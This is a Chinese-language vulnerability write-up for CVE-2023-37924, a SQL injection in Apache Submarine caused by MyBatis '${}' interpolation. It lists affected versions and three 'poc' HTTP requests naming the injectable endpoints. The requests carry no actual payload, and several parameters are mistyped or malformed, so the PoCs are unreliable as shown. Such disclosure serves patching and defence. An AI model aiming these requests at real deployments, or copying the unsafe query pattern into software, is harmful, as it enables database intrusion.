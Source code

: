 
## Apache-Submarine-SQL注入漏洞CVE-2023-37924
Apache Submarine是一个端到端的机器学习平台，允许数据科学家创建完整的机器学习工作流程，涵盖数据探索、数据管道创建、模型训练、服务以及监控的每个阶段。Apache Submarine存在SQL注入漏洞，由于在SysDeptMapper.xml、SysUserMapper.xml等文件中的SQL语句使用了"$"参数符号，导致用户可控的输入直接拼接到SQL语句中。未授权的攻击者可以通过向/sys/searchSelect等接口发送恶意的keyword参数，从而执行恶意的SQL语句。

## 影响范围
```
0.7.0<=apache-submarine<0.8.0.dev0
```
## 漏洞点
从官方修复得代码来看，主要使用mybatis框架，并写法不规范，${}造成sql注入漏洞
![](../../assets/20231123192338.png)


## poc
### api/sys/user/list   userNmae 和  email参数可控
```
GET /api/sys/user/list?column=createTime&order=desc&fieId=id,userName,realName&userNmae=&email= HTTP/1.1
Host: 192.168.108.153:32080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 4
```

### /api/sys/dept/tree
```
GET /api/sys/dept/tree?=likeDeptCode=demoData&likeDeptName=demoData HTTP/1.1
Host: 192.168.108.153:32080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 4
```

### api/sys/dict/list接口
```
GET /api/sys/dict/list?dictCode=demoData&dictName=demoData&column=&field=&order=pageNo=1&pageSize=10 HTTP/1.1
Host: 192.168.108.153:32080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 4

```

## 漏洞复现
![image](../../images/904c3929-8590-4a7d-a695-48b0bb1b2832.png)
![image](../../images/cdc34528-456b-4c51-ad35-f23d5752152d.png)

